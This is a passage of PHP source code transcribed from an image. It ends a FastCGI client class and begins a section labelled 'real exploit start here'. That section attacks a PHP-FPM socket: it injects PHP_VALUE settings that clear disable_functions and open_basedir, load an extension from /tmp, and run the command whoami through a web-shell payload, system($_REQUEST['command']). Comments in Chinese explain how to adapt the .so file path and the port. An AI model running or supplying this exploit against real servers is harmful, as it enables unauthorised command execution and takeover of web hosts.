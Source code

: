 ```
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; 
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = 1.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";   //注意修改这里的so文件名称和路径
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',    // 注意这里的FPM端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
```
